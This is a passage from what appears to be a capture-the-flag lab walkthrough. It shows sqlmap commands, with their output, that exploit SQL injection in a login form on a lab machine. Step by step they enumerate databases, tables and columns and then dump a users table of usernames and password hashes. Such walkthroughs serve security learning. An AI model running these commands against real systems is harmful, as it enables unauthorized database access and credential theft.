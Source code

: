 Listing the databases.

```console
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL --dbs
...
available databases [2]:
[*] information_schema
[*] pinky_sec_db
```

Enumerating the tables from pinky_sec_db.

```console
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db --tables
...
Database: pinky_sec_db
[2 tables]
+-------+
| logs  |
| users |
+-------+
```

Listing the columns from the users table.


```console
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db -T users --columns
...
Database: pinky_sec_db
Table: users
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| user   | varchar(100) |
| pass   | varchar(100) |
| uid    | int(11)      |
+--------+--------------+
```

Retrieving the records from the users table.

```console
root@kali:~$ sqlmap -u 'http://127.0.0.1:8080/littlesecrets-main/login.php' --data 'user=pinky&pass=password' --proxy 'http://192.168.179.160:31337' --level 5 --risk 3 --dbms MYSQL -D pinky_sec_db -T users -C uid,user,pass --dump
...
Database: pinky_sec_db
Table: users
[2 entries]
+-----+-------------+----------------------------------+
| uid | user        | pass                             |
+-----+-------------+----------------------------------+
| 1   | pinky       | f543dbfeaf238729831a321c7a68bee4 |
| 2   | pinkymanage | d60dffed7cc0d87e1f4a11aa06ca73af |
+-----+-------------+----------------------------------+
```
